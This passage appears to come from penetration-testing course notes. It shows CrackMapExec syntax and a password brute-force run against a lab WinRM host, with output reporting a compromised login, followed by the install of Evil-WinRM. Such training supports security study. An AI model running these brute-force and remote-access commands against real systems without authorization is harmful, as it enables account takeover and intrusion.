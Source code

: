 ```
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)

<SNIP>

```

#### **CrackMapExec Usage**

The general format for using CrackMapExec is as follows:

```
th1nyunb0y@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>

```

```
th1nyunb0y@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

The appearance of `(Pwn3d!)` is the sign that we can most likely execute system commands if we log in with the brute-forced user. Another handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

### **Evil-WinRM**

#### **Installing Evil-WinRM**

```
th1nyunb0y@htb[/htb]$ sudo gem install evil-winrmFetching little-plugger-1.1.4.gem

Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```
